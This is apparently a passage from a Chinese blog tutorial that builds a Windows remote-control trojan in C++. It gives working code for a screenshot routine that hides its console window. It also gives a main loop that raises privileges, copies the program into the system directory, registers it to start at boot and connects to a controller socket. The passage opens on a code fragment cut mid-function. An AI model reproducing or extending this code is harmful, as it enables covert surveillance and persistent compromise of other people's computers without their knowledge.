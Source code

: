 ```c++
	WideCharToMultiByte(CP_ACP, 0, tchar, -1, _char, iLength, NULL, NULL);
	return true;
}
```

[TcharToChar](https://blog.csdn.net/ahjxly/article/details/8494217)





### 实现屏幕截图

```C++
#include <iostream>
#include <atlimage.h>
#pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"" )//不显示控制台黑色窗口
using namespace std;
void ScreenShot(LPCTSTR s);
int main()
{
    const char* str = "D:\\ScreenShot.bmp";//多字节字符集可以这么做，如果是Unicode编码，则需要转换成CString后赋值给LPCTSTR
    ScreenShot((LPCTSTR)(CString)str);
	return 0;
}
void ScreenShot(LPCTSTR s)
{
    HDC hdcSrc = GetDC(NULL);
    int nBitPerPixel = GetDeviceCaps(hdcSrc, BITSPIXEL);
    int nWidth = GetDeviceCaps(hdcSrc, HORZRES);
    int nHeight = GetDeviceCaps(hdcSrc, VERTRES);
    CImage image;
    image.Create(nWidth, nHeight, nBitPerPixel);
    BitBlt(image.GetDC(), 0, 0, nWidth, nHeight, hdcSrc, 0, 0, SRCCOPY);
    ReleaseDC(NULL, hdcSrc);
    image.ReleaseDC();
    image.Save(s, Gdiplus::ImageFormatPNG);//ImageFormatJPEG
}

```

[参考](https://blog.csdn.net/Kwansy/article/details/79717487)



## 第二步，实现心跳功能：

以心跳功能为主线程，剩下的功能创建一个新的进程，使用时加入

```c++
int main()
{
	if (true == UpPrivilegeValue())
	{
		//cout << "successs" << endl;
	}

	char pathName[MAX_PATH];//文件名字最大260个字符  MAX_PATH  260

	copySelf(pathName);//将文件复制到系统目录

	ComputerStart(pathName);//设置程序开机自启

	init_Socket();//创建客户端socket

	SOCKET fd = CreatClientScoket("127.0.0.1");//连接

	char str[BUFSIZ] = "Connect success";//连接成功
```